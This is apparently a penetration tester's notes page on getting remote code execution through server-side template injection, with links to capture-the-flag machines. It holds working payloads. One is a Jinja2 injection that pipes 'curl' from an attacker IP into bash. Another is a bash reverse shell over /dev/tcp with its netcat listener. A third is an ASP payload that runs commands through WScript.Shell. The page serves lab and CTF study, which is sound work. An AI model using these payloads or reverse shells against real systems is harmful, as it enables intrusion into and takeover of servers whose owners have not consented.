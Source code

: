 ```yaml
---
description: >-
  RCE via SSTI
title: RCE via SSTI              # Add title here
date: 2023-01-31 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, RCE via SSTI]                     # Change Templates to Writeup
tags: [exploitation, azure, rce, ssti]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### PYTHON
First we need to inject our payload within the request:
```bash
POST / HTTP/1.1
.
.
costume={{+self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl+http%3a//10.10.16.5 | bash').read()+}}&q=ad&addr=ad
```
Create a script and name it as index.html:
```bash                                                              
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.5/1235 0>&1'
```
Start our python under the same path as index.html to share it:
```bash
sudo python3 -m http.server 80

nc -lvnp 1235
```
Examples:
[Epsilon](https://shuciran.github.io/posts/Epsilon/#fnref:rce-ssti)
### ASP
It is possible to exploit an ASP SSTI with the following payload:
```bash
<%response.write (7*7)%>
```
If the response reflects a "49" then you can use this payload to get RCE:
```bash
<%response.write CreateObject("WScript.Shell").Exec("cmd /c ping -n 1 10.10.14.4").StdOut.Readall()%>
```
Examples:
[[Anubis#^95c992]]